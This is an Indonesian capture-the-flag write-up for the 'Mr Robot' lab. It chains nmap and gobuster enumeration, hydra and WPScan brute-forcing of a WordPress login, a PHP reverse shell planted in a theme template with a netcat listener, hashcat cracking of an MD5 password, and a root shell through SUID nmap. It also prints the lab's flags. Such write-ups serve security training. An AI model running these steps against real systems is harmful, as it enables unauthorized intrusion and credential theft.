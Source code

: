 Lakukan scanning pada IP address dengan nmap

```shell
nmap -sV -sC IP-target -oN zcan
```

hasil scan dengan nmap:

```shell
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).

```

coba cari `web`/robots.txt untuk mencari file yang tidak terindex, yang didapat dari robots.txt

```shell
User-agent: *
fsocity.dic
key-1-of-3.txt
```

kita mendapat key1, kita dapat menambahkannya ke URI `IP/key-1-of-3.txt`, dan hasilnya

```shell
073403c8a58a1f80d943455fb30724b9
```

kita dapat download `fsocity.dic` file dengan

```shell
wget http://IP/fsocity.dic
```

isi dari dic tersebut adalah list yang cukup panjang, dan mencurigakan.

selanjutnya kita scan dir dengan gobuster

```shell
gobuster dir -u http://10.10.77.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobbed
```

berikut adalah beberapa direktori yang berhasil ditemukan

```shell
/images               (Status: 301) [Size: 235] [--> http://10.10.77.103/images/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.77.103/blog/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.77.103/feed/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://10.10.77.103/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.77.103/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.77.103/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.77.103/video/]
/image                (Status: 301) [Size: 0] [--> http://10.10.77.103/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.77.103/feed/atom/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.77.103/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.77.103/admin/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.77.103/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2664]
/css                  (Status: 301) [Size: 232] [--> http://10.10.77.103/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.77.103/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.77.103/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.77.103/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.77.103/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.77.103/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.77.103/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.77.103/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.77.103/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.77.103/wp-admin/]
/phpmyadmin           (Status: 403) [Size: 94]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.77.103/0000/]
/xmlrpc               (Status: 405) [Size: 42]
```

salah satu dari dir yang ditemukan dan cukup menarik adalah `/wp-login` karena memiliki status code 200, tidak seperti `/wp-admin` yang memiliki status code 300 atau redirect. Kita dapat mengunjungi `IP/wp-login`, dan kita akan mendapat halaman login wordpress.

Jika kita mencoba login dengan `admin:admin` maka akan ada peringatan `ERROR: Invalid username. Lost your password?`, yang mana ini cukup berbahaya dan menguntungkan untuk adversary. Dari file `fsocity.dic`, dapat kita asumsikan bahwa itu merupakan wordlist. kita dapat menggunakan `fsocity.dic` untuk brute force login ke `wp-login`.

untuk hal ini kita akan menggunakan burpsuite. Buka burpsuite dan `intercept on`, atur foxy proxy di firefox. Selanjutnya coba login dengan `admin:admin`, maka nanti akan otomatis terlempar ke burpsuite di tab Proxy/Intercept. Klik kanan, lalu pilih `send to Intruder`. Pada tab Intruder/Payloads, load Payloads setting dengan file `fsocity.dic`, lalu pada bagian position, tambahkan simbol `§` pada bagian log seperti berikut dengan tombol `Add §`. Jika sudah, kita dapat start attack.

```shell
log=§§&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.77.103%2Fwp-admin%2F&testcookie=1
```

atau kita bisa juga menggunakan hydra untuk bruteforce

```shell
hydra -V -L fsocity.dic  -p admin 10.10.77.103 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username'
```

hasilnya, terlihat bahwa username dengan `Elliot` memiliki Length 4148 (burpsuite), jika kita lihat pada bagian Response/Render, terlihat bahwa pesan Error telah berubah dari `invalid username` ke `invalid password`. Jadi dapat kita simpulkan bahwa username yang dapat kita gunakan adalah `Elliot`. Selanjutnya kita akan coba untuk bruteforce login dengan hydra atau WPScan untuk bagian password.

pertama, kita perlu reduce size dengan cara 

```shell
sort fsocity.dic | uniq > fsocity_sorted.dic
```

untuk brute force menggunakan hydra lakukan

```shell
hydra -V -l Elliot -P fsocity_sorted.dic 10.10.77.103 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered'
```

hasilnya

```shell
...
[ATTEMPT] target 10.10.77.103 - login "Elliot" - pass "event" - 5659 of 11452 [child 4] (0/0)
[80][http-post-form] host: 10.10.77.103   login: Elliot   password: ER28-0652
...
```

untuk brute force menggunakan WPScan lakukan

```shell
wpscan --url http://10.10.77.103/wp-login.php --usernames Elliot -P fsocity_sorted.dic
```

hasilnya

```shell
...
[!] Valid Combinations Found:
	Username: Elliot, Password: ER28-0652
...
```

selanjutnya kita dapat login dengan creds `Elliot:ER28-0652` di login page. Setelah berhasil masuk, kita dapat cek siapa saja User yang ada di WPScan dengan pergi ke tab `User > All User`. Kita temukan bahwa ada 2 akun(dalam kasusku), yaitu Elliot sebagai Administrator, dan Krista Gordon sebagai Subscriber. Kita bisa melakukan brute-force password pada user tersebut dengan hydra (optional), dan hasilnya

```shell
[80][http-post-form] host: 10.10.152.97   login: mich05654   password: Dylan_2791
```

selanjutnya kita dapat menanam reverse shell ke wordpress dengan cara mengedit tema. Pergi ke tab `Appearance > Editor` lalu pilih `404 Template` pada bagian kanan. Selanjutnya kita dapat copas isi dari [revshell pentest monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) ke dalam kolom edit `404 Template` dan tidak lupa untuk edit pada bagian ip dan port

```php
...
$ip = 'LOCAL-IP';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
...
```

lalu pilih `Update File`. Jika sudah, kita dapat setup netcat listener dengan `nc -lvnp 4444`, lalu kita pergi ke `http://IP-TARGET/404.php`, maka kita akan mendapat shell.

Kita dapat cek, sebagai siapa kita login dengan `whoami`, dan hasilnya adalah `daemon`. Kita dapat pergi ke `/home` untuk mengetahui siapa saja user yang ada, dan hasilnya adalah `robot`. Didalam homdir `robot`, terdapat 2 file ketika kita cek dengan `ls -la`

```shell
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

ternyata terdapat key2, namun kita tidak bisa melihatnya karena file permission hanya bisa dilihat oleh owner. Tapi file `password.raw-md5` ketika di `cat`, akan memunculkan creds `robot:c3fcd3d76192e4007dfb496cca67e13b`. Karena sudah terpampang nyata bahwa itu adalh md5, kita dapat crack dengan hashcat di local

```shell
echo "c3fcd3d76192e4007dfb496cca67e13b" > hash

hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```

dan hasilnya adalah:

```shell
...
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
...
```

setelah dapat passwordnya, kita dapat login sebagai `robot` dengan cara 

```shell
su robot

Password: abcdefghijklmnopqrstuvwxyz
```

dan kita dapat cat key2 dengan `cat key-2-of-3.txt`

```shell
822c73956184f694993bede3eb39f959
```

selanjutnya untuk key3 pastinya berada di root. Hint yang ada di room adalah `nmap`, dapat kita asumsikan bahwa kita dapat memanfaatkan SUID. Kita dapat cek apakah nmap masuk ke SUID atau tidak dengan cara

```shell
find / -perm -u=s -type f 2>/dev/null
```

dan ternyata ada. Maka kita bisa pergi ke [GTFOBin](https://gtfobins.github.io/gtfobins/nmap/) untuk mencari exploit SUID `nmap`. Dibagian Shell terdapat 2 pilihan, dan pilihan (b) terlihat lebih cepat, kita dapat cek versi nmap dengan `nmap --version`, dan kita dapatkan nmap versi 3.x. maka kita dapat menerapkan option (b)

```shell
nmap --interactive

nmap> !sh
```

dan kita akan mendapat root shell. kita bisa pergi ke `/root` dir untuk mengambil flag ke 3 dengan `cat /root/key-3-of-3.txt`

```shell
04787ddef27c3dee1ee161b21670b4e4
```